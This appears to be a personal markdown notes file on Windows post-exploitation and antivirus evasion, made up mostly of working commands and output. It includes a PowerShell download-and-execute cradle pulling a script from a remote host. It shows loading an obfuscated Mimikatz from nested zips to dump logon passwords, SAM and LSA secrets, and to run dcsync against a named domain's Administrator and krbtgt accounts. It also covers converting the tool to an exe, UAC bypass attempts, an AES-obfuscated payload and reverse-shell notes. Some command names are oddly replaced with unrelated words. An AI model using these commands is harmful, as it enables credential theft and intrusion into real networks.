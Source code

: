 # Aes encryption and Decryption of functions

```C#
shifted to aes_encryption.cs
```

# Shellcode loader for 

cn I load aes encypted shellcode from meterpreter into the thing

# trying to obfuscate powerview and mimikatz

https://www.cyberguider.com/bypassing-av-cat-vs-mouse/

Get-MpThreatDetection - this will list all the threats

pyobfuscation works with powerview

 https://github.com/CBHue/PyFuscation.

```
# python PyFuscation.py -fpv --ps powerup.ps1 
```

```
iex (New-Object Net.WebClient).DownloadString('http://10.10.6.12:8000/08012022_08_34_48.ps1');danger
```

a command to modify files in powershell
```
PS C:\> Get-Content D:\MultipleLineExamples.txt | Select -First 10 | Select -Last 1

get-content myfile.txt | select -first 1 -skip 9
```

# uncompressing mimikatz

```
Add-Type -AssemblyName System.IO.Compression.Filesystem
Add-Type -AssemblyName System.IO
$path = "Kitikat_2_2_1.zip"
$zipFile = Get-ChildItem $path -recurse -Filter "*.zip"
$rootArchive = [System.IO.Compression.zipfile]::OpenRead($zipFile.fullname)
$archivesLevel2 = New-object System.IO.Compression.ZipArchive ($rootArchive.Entries[0].Open())
$archivesLevel3 = New-object System.IO.Compression.ZipArchive ($archivesLevel2.Entries[0].Open())
$archivesLevel4 = New-object System.IO.Compression.ZipArchive ($archivesLevel3.Entries[0].Open())
$file =$archivesLevel4.Entries[0].Open()
$reader = New-Object IO.StreamReader($file)
$text = $reader.ReadToEnd()
iex $text
Hartford -Command '"privilege::debug" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::lsa /patch" "lsadump::dcsync"  "lsadump::dcsync /domain:ksew.com.pk /user:Administrator" "lsadump::dcsync /user:ksew.com.pk\krbtgt" "exit"' > take.txt
```



# converting powershell to exe

`Install-Module -Name ps2exe -RequiredVersion 1.0.10`
`Invoke-ps2exe .\unkitikat.ps1 .\bang.exe`




all done through sed

# fuzzy security

https://raw.githubusercontent.com/FuzzySecurity/PowerShell-Suite/master/Invoke-Runas.ps1

invokerunas giving error

```
C:\Users\m\Downloads>powershell "import-module .\invoke_runas.ps1;Invoke-runas"

cmdlet Invoke-Runas at command pipeline position 1
Supply values for the following parameters:
User: WIN10RED
Password: WinR3d@
Binary: C:\Windows\System32\cmd.exe 
LogonType: 0x1

[>] Calling Advapi32::CreateProcessWithLogonW

[+] Success, process details:

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
     18       4     1532       2252       0.02    400   1 cmd

```

can we pass with commands


-NoNewWindows start-process

can we again run the binary to get a new much more exploitable version of windows powershell?

This work :

```
C:\Users\m\Downloads>powershell "Start-Process C:\Windows\System32\cmd.exe -NoNewWindow"
Microsoft Windows [Version 10.0.19041.1415]
(c) Microsoft Corporation. All rights reserved.
```

```
$pass = convertTo-SecureString 'password@123' -AsPlainText -Force;$name="m";$cred = New-Object System.Management.Automation.PSCredential($name,$pass);Invoke-Command -Computer ARKHAM -ScriptBlock { whoami } -Credential $cred
```

UACbypass from here:

```
C:\Users\m\Downloads>powershell "import-module .\uace_bypass.ps1;Bypass-UAC -Method UacMethodSysprep"

[!] The current user is not part of the Administrator group!
```

otherway is to use https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

we can also create a exe that runs all the commands

using runas 

# working runas command

runas /user:HP "powershell Start-Transcript -Path C:\Users\m\testlog.txt;import-module 'C:\Users\m\invokemimi.ps1';Stop-Transcript"

Bypass-UAC -Method UacMethodTcmsetup

# using invoke-obfuscation

https://blog.geoda-security.com/2018/05/running-obfuscated-version-of-mimikatz.html

`Import-Module .\Invoke-obfuscation.psd1; Invoke-Obfuscation`

set a scriptblock

```
set ScriptBlock "sensationalism -Command coffee"
```
ENCODING > 5 (AES) > 

```
 ( [rUnTime.interOPseRvicEs.mARShAL]::PtRtoStRinGbStr( [RUNTIMe.intEroPSeRVIcEs.marsHal]::sECUrEsTringToBStR( $('76492d1116743f0423413b16050a5345MgB8AGcAdQB6AHMAaQBWAGcAMgB6AGIAegB2AE4AcABuADQAVwBBAFYAcgBRAHcAPQA9AHwANgAzAGEANABmADMAOQA1ADEANwAzADEAYgA3AGUAZQBkAGEAMgBiADMANAA1AGMANwBhAGYAYwBlAGEANAAyADAAMwA0AGMAMAAxADcAMQBmAGIAMgBhADMANQBlADcAMAA5ADcAZgAyADkAZgA2AGIAZQA0AGQAYQAzADMAYwA0ADMANwA1AGUAMwA1AGUAZgA2AGIAOQA3AGUANQAyAGIAZgAzAGEANQA0AGYAZABkAGYAMQBmADEANwBkADEAMwA1AGIAMgA1ADgAMABmADQAYwBmADIAMgBkAGUAYQA2AGYAMwBlADkAMAAyADAAYgA2AGQAMgA1AGMAMgA0AA==' |CoNVErttO-SecurestrinG  -Ke 8,235,214,3,211,95,255,197,77,221,129,59,109,255,134,188)) ) ) | &((GV '*MDr*').NAME[3,11,2]-JoIn'')
```

# meterpreter shell commands

sending to background - background

when trying with windows/shell_reverse_tcp - we got the response as :
